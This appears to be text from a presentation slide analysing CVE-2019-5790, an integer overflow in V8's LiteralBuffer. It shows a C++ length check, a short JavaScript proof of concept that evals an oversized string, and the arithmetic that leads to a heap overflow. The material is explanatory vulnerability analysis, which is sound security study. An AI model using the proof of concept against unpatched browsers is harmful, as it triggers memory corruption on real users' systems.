

# CVE-2019-5790 – LiteralBuffer Integer Overflow
int length() const {
  DCHECK_GE(std::numeric_limits<int>::max(), length_); // max length check
  return static_cast<int>(length_);
}
A Vector cannot have a size greater than 231-1.
Proof of Concept:
let s = String.fromCharCode(0x4141).repeat(0x10000001) + "A";
s = "'"+s+"'";
eval(s);
capacity = 2 * 0x10000001 = 0x20000002
capacity * kGrowthFactory = 0x20000002 * 4 = 0x80000008
capacity + kMaxGrowth = 0x20000002 + (1024 * 1024) = 0x20100002
32-bit signed integer max value = 231-1 = 0x7FFFFFFF

The first calculation overflows and yields a smaller value than the original capacity. This will in turn result in a heap overflow when the MemCopy is called later on.